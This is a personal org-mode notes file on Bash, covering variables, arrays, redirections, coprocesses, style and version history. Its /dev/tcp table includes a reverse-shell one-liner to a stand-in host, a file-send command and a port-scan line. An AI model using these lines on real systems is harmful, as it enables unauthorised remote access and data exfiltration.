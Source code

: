 - source https://github.com/wasix-org/bash/
- manual https://www.gnu.org/software/bash/manual/bash.html
- wiki https://en.wikipedia.org/wiki/Bash_(Unix_shell)
  - Author: Brian Fox
  - 1989-

- PS1's
  - ";"
    - allows you to copy multiple commands (also on rc shell)
    - PS1='%(?.%(!.#.;).%F{6}%B;%b%f) '

- https://bash-hackers.gabe565.com/
  - archive of the 2023 defunct wiki.bash-hackers.org
  - https://web.archive.org/web/20221101110416/https://wiki.bash-hackers.org/

- https://github.com/onceupon/Bash-Oneliner
- https://github.com/dylanaraps/writing-a-tui-in-bash

- https://www.commandlinefu.com/
- https://command-not-found.com/
- https://www.mulle-kybernetik.com/modern-bash-scripting/
- https://github.com/xwmx/bash-boilerplate
- https://github.com/dylanaraps/pure-bash-bible
- https://github.com/mrzool/bash-sensible
- https://github.com/joseluisq/awesome-bash-commands
- https://lobste.rs/s/iofste/please_stop_writing_shell_scripts
- Why doesn't set -e (or set -o errexit, or trap ERR) do what I expected?
  http://mywiki.wooledge.org/BashFAQ/105

- https://wizardzines.com/comics/bash-debugging/
  https://news.ycombinator.com/item?id=39568728

- LLM
  https://hackaday.com/2023/12/29/using-local-ai-on-the-command-line-to-rename-images-and-more/
  https://justine.lol/oneliners/
  https://gist.github.com/jart/bd2f603aefe6ac8004e6b709223881c0

- tool/lib: foreign function call helpers (C) https://github.com/taviso/ctypes.sh
- tool: fuse bindings (C) https://github.com/zevweiss/booze

* Language

- "Destructuring" with *read* https://stackoverflow.com/questions/1952404/linux-bash-multiple-variable-assignment

- exec CMD
  - make cmd replace the current shell, no new process is created

- Process substitution
  - careful of not forgetting an "<" in "cmd < <(cmd2)"
  - "cmd | tee >(cmd2) >(cmd3)" - sends "cmd" output to both "cmd2" and "cmd3" stdin https://tecadmin.net/bash-process-substitution/
  - bash won't wait for cmd2 or cmd3 to finish to exit
    - detailed explaination https://unix.stackexchange.com/questions/403783/the-process-substitution-output-is-out-of-the-order
    - you can hack together a ~work group~ type of thing with ~mkfifo~ https://unix.stackexchange.com/questions/351780/wait-for-bash-process-substitution-subshells

- Brace Expansion
  - support integer zero padding
  - supports a step {FROM..TO..STEP}
  - you can use an "enumeration" on a "for loop" using "for i in {this,that,theother}"

- commands run in a pipeline run at the same time
  https://mtlynch.io/zig-extraneous-build/#my-mental-model-of-bash-pipelines-is-wrong

- << EOF here document
  <<- EOF here document, ignore leading tabs

- https://zwischenzugs.com/2018/10/12/eleven-bash-tips-you-might-want-to-know/
  https://zwischenzugs.com/2020/05/09/some-relatively-obscure-bash-tips/

- CTRL+z = sends a SIGTSTP aka suspends program
- jobs/bg/fg/%N

** Variables
|--------------+-----------+------------------------------------|
|              | example   | description                        |
|--------------+-----------+------------------------------------|
| OSTYPE       | linux-gnu | defined at compile type            |
| BASH_ARGV0   | foo.sh    | same as $0                         |
| BASH_ARGC    |           |                                    |
| BASH_ARGV    |           | array, all params in current stack |
| BASH_REMATCH |           | array, of =~ string match          |
| COLUMNS      |           | bash4+ number of columns in window |
| LINEs        |           | bash4+ number of rows in window    |
|--------------+-----------+------------------------------------|
** Coproc

- commands
  - simple: sequence of words
  - compound: shell constructs

- manual https://www.gnu.org/software/bash/manual/html_node/Coprocesses.html
  - coproc [NAME] cmd [redirections]
    - like "cmd &", runs async in a subshell
    - communication happens over pipes
      - NAME defaults to COPROC if none given
      - stdout in NAME[0]
      - stdin  in NAME[1]
    - "wait"

- example: progress bar https://gist.github.com/drewchapin/f43ab1a10367b1bfa53c55fe612d4245
- 10 https://www.linuxjournal.com/content/bash-co-processes
- 11 https://www.zsh.org/mla/users/2011/msg00095.html
- 18 https://www.linuxjournal.com/content/investigating-some-unexpected-bash-coproc-behavior
- 19 https://copyconstruct.medium.com/bash-coprocess-2092a93ad912
- 21 https://mbuki-mvuki.org/posts/2021-05-30-memoize-commands-or-bash-functions-with-coprocs/
  - a memoization solutions that works
  - classic solutions won't because =command substitution= $() runs in a subshell

** Types

- reserved words
- shell builtin
- numbers (? are of 2^ARCH size
- Bash does NOT support natively floating point numbers

- associative arrays
  - is always global
  - cannot be passed to a function by value
  - [[https://github.com/wasix-org/bash/blob/master/assoc.c]["are standard shell hash tables"]]
  - ops
    |-------------------+----------------|
    |        <c>        |                |
    |  declare -A arr   | init           |
    | declare -rA arr=( | init+assign+ro |
    |   ["c"]="foo")    |                |
    | arr["c"]="foobar" | assign         |
    |    ${arr["c"]}    | access         |
    |    ${!arr[@]}     | keys           |
    |     ${arr[*]}     | values         |
    | unset ${arr["c"]} | delete element |
    |     unset arr     | delete         |
    |-------------------+----------------|

- array
  - index start at 0(zero)
    - must be non-negative
  - [[https://github.com/wasix-org/bash/blob/master/array.c]["are sparse doubly-linked lists. An element's index is stored with it."]]
    - meaning that random access is O(n)
  - array ops https://tldp.org/LDP/abs/html/arrays.html
    |----------------------+----------------------------|
    | declare -a arr       |                            |
    | arr=(zero one two)   | init                       |
    | arr=([0]="zero num") | init whitespace support    |
    | arr+=(foo bar)       | append multiple            |
    | arr+=("blip bah")    | append one with whitespace |
    | ${!arr[@]}           | returns indices            |
    | ${#arr[@]}           | array size                 |
    | ${arr[0]}            | access                     |
    | ${arr[@]:1:3}        | slicing                    |
    | ${arr[@]// /_}       | substitute on each element |
    | ${arr[@]/#/foo}      | preppend "foo" to each     |
    |----------------------+----------------------------|

- string ops
  |-------------+-----------------|
  | ${foo:1:10} | slice           |
  | ${#foo}     | length          |
  | ${foo,}     | lowercase       |
  | ${foo^^}    | uppercase       |
  | ${foo^}     | capitalize      |
  | ${foo/a/b}  | substitute once |
  | ${foo//a/b} | substitute all  |
  |-------------+-----------------|

** Redirections

https://tldp.org/LDP/abs/html/io-redirection.html

- append output also to file
  - exec &>> file.txt
  - exec > >(tee file.txt) 2>&1
  - exec 2> >(tee -a file.txt)

- <filename cmd1              - alternative to cat pipe
  <filename >outfile cmd1

- Redirection Operators
  - "|&" https://stackoverflow.com/questions/35917552/what-does-the-syntax-mean-in-shell-language
  - "<>" https://bash.cyberciti.biz/guide/Opening_the_file_descriptors_for_reading_and_writing
  |-------------+------------------------------------------------|
  | ¦&          | shorthand for "2>&1 ¦"                         |
  | [n]<>word   | opens fd n at word, for r/w                    |
  | [n]<&word   | duplicates fd                                  |
  | [n]>&word   | duplicates fd                                  |
  | [n]<&-      | closes fd n (or 0)                             |
  | [n]<&digit- | moves fd digit to n (or 0), closes digit after |
  | [n]>&digit- | moves fd digit to n (or 1)                     |
  |-------------+------------------------------------------------|

- feature: open client socket
  - https://medium.com/@stefanos.kalandaridis/bash-ing-your-network-f7069ab7c5f4
  - /dev/tcp/host/port
  - /dev/udp/host/port
  - Examples:
    |---------------+-----------------------------------------------------------------------------------|
    | port scanning | timeout 0.5 echo < /dev/tcp/127.0.0.1/777/ && echo "open" ¦¦ echo "closed"        |
    | read stream   | cat < /dev/tcp/time.nist.gov/13                                                   |
    | receive file  | cat < /dev/tcp/remote.ip/1234 > file.txt                                          |
    | send file     | cat file.txt > /dev/tcp/remote.ip/4321                                            |
    | reverse shell | bash -c 'bash -i >& /dev/tcp/remote.ip/7777 0>&1'                                 |
    |---------------+-----------------------------------------------------------------------------------|
    | http request  | exec 5<>/dev/tcp/www.google.com/80                                                |
    |               | >&5 echo -e "GET / HTTP/1.1\r\nHost: www.google.com\r\nConnection: close\r\n\r\n" |
    |               | <&5 cat                                                                           |
    |---------------+-----------------------------------------------------------------------------------|
    * could have used "here documents" for the GET, using cat and >&5

** Special Parameters

|----+---------------------------|
| $_ | argument of last command  |
| $? | exit code of last command |
| $$ | self PID                  |
| $! | recent bg PID             |
|----+---------------------------|
| $# | number of arguments       |
| $0 | name of the script        |
| $* |                           |
| $@ |                           |
|----+---------------------------|

** select

- Creates an interactive selection menu

#+begin_src bash
  select var in {a..z}; do
    echo $REPLY $var
  done
  # ?# 2
  # 2 b
#+end_src

** getopt(s)

https://en.wikipedia.org/wiki/Getopts
- 1986-
- based on C's getopt

#+begin_src bash
  while getopts ":hf:" arg; do
      case $arg in
          h)  echo "help"; exit 1 ;;
          f)  echo "argument given: $OPTARG" ;;
          :)  echo "Mandatory argument missing for given flag $OPTARG"; exit 1;;
          \?) echo "Unknown flag";  exit 1;;
      esac
  done
  shift $((OPTIND - 1)) # allow positional arguments
#+end_src

** Arithmetic Evaluation $(())

- Equivalent to "let expressions"
  let arg [arg ...]

- "Evaluation is done in fixed-width *integers* with no check for overflow,
   though division by 0 is trapped and flaged as an error."
  - aka NOT floats

- "A shell variable that is null or unset evaluates to 0"

*** Operators

|-----------------------------------+--------------------------------------------|
|                <c>                |                                            |
|             OPERATOR              |                                            |
|-----------------------------------+--------------------------------------------|
|             id++ id--             | variable post-increment and post-decrement |
|             ++id --id             | variable pre-increment and pre-decrement   |
|                + -                | unary minus and plus                       |
|                **                 | exponentiation                             |
|               * / %               | multiplication, division, remainder        |
|                + -                | addition, subtraction                      |
|-----------------------------------+--------------------------------------------|
|                 !                 | logical negation                           |
|             <= >= < >             | comparison                                 |
|               == !=               | equality and inequality                    |
|                &&                 | logical AND                                |
|                ¦¦                 | logical OR                                 |
|-----------------------------------+--------------------------------------------|
|          expr?expr:expr           | conditional operator                       |
| = *= /= %= += -= <<= >>= &= ^= ¦= | assignment                                 |
|           expr1 , expr2           | comma                                      |
|-----------------------------------+--------------------------------------------|
|                 ~                 | bitwise negation                           |
|               << >>               | bitwise left and right shifts              |
|                 &                 | bitwise AND                                |
|                 ^                 | bitwise exclusive OR                       |
|                 ¦                 | bitwise OR                                 |
|-----------------------------------+--------------------------------------------|


* Tutorial: Style https://google.github.io/styleguide/shellguide.html

- Don’t brace-delimit single character shell specials / positional parameters,
  unless strictly necessary or avoiding deep confusion.
- Indentation: Indent 2 spaces. No tabs.
- Comment at the header
  #+begin_src bash
    #!/bin/bash
    #
    # Perform hot backups of Oracle databases.
  #+end_src
- Redirect errors to STDERR
  #+begin_src bash
    err() {
      echo "[$(date +'%Y-%m-%dT%H:%M:%S%z')]: $*" >&2
    }
  #+end_src
- Do not put an extension on executables, only on libraries
- Guidelines
  - When is ok
    * mostly calling other utilities
    * relatively little data manipulation
  - When NOT use
    * Scripts more than 100 lines long
    * Using non-straightfoward control flow logic
    * if performance matters

* Changelog

table of changes https://mywiki.wooledge.org/BashFAQ/061
5.0 discussion https://news.ycombinator.com/item?id=18852523

- 3.0 (2004)
  - regex? =~
- 4.0 (2009)
  - coproc
  - associative array
  - &>> and |&
  - mapfile/readarray
- 4.4 (2016)
  - mapfile/readarray -d
  - ${var@operator} "parameter transformation"
    - U uppercase
    - u capitalize
    - Q single quote
- 5.0 (2019) https://lists.gnu.org/archive/html/bug-bash/2019-01/msg00063.html
  - EPOCHSECONDS / EPOCHREALTIME
  - BASH_ARGV0 (same as $0)
- 5.1 (2020)
  - SRANDOM (32 bit random)

* Executable
- https://blog.flowblok.id.au/2013-02/shell-startup-scripts.html
#+CAPTION: initialization order for sh/bash/zsh
#+ATTR_ORG: :width 800
[[https://blog.flowblok.id.au/static/images/shell-startup-actual.png]]
* Codebases

- tui: file browser https://github.com/dylanaraps/fff/
- dns server backend https://github.com/basecamp/xip-pdns/blob/master/bin/xip-pdns
- maze solver https://gist.github.com/xsot/99a8a4304660916455ba2c2c774e623a
- web server https://github.com/dzove855/Bash-web-server
- web framework https://github.com/emasaka/shails
- web framework
  - https://github.com/cgsdev0/bash-stack/
  - https://bashsta.cc/0-index
- minecraft server
  - https://sdomi.pl/weblog/15-witchcraft-minecraft-server-in-bash/
  - https://github.com/sdomi/witchcraft
  - https://news.ycombinator.com/item?id=30347501

* Snippets

- Read keypress
  #+begin_src sh
    read -rsn1 keypress
    # -s  silent mode (not echo)
    # -n1 read 1 char
    # -r  raw mode, do not escape on backslash
  #+end_src

- Example: concatenation
  $ cut -d: -f2 studentlist.txt | xargs printf "%s@example.com"

- Common lines between files
  $ grep -Fxf file1 file2
  $ grep --fixed-strings --line-regexp --file file1 file2

- Not common lines
  $ grep -vFxf file1 file2

#+NAME: scramble string
#+begin_src bash
echo -n "${1}" | fold -w1 | sort -R | xargs -ILETTER echo -n LETTER

echo -n "${1}" | while read -n1 -r letter; do
     echo $letter
done | sort -R | xargs -ILETTER echo -n LETTER
#+end_src

#+begin_src bash
  die() { echo $1 >&2; exit 1; } # some_command || die "oh no!"
#+end_src

#+begin_src bash
  for cmd in sgr0 bold; do
    tput $cmd
    for i in $(seq 0 7); do
      for j in $(seq 0 7); do
        tput setaf $i; tput setab $j; echo -n " $i,$j "
      done
      tput sgr0; echo; tput $cmd
    done
  done
#+end_src
